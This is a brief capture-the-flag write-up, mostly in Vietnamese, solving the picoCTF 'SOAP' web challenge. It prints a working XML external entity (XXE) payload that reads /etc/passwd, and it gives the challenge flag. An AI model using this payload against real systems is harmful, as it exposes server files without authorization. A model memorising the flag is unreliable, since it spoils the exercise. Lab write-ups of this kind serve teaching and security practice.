


# SOAP (Web)
100 Point

## Description:
>The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?. Additional details will be available after launching your challenge instance.
> http://saturn.picoctf.net:52628/

## Hint:
>XML external entity Injection

## Solution:

Ok, theo như gợi ý thì đây là một bài về XXE injection. và yêu cầu là đọc được file /etc/passwd

Truy cập vào web mình nhận được những thông tin sau.


Trong các button Detail mình nhận thấy nó có thể render ra dữ liệu. Sau khi bắt burpsuite thì có thể xem request như sau:


Ứng dụng lấy dữ liệu từ ID và rander ra màn hình.
Mình sẽ bắt đầu tấn công XXE theo payload như sau:

```php
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<data><ID>&xxe;</ID></data>
```

Sau khi gửi request tới server thì nhận được nộ dung của tệp `/etc/passwd`


Flag: picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}


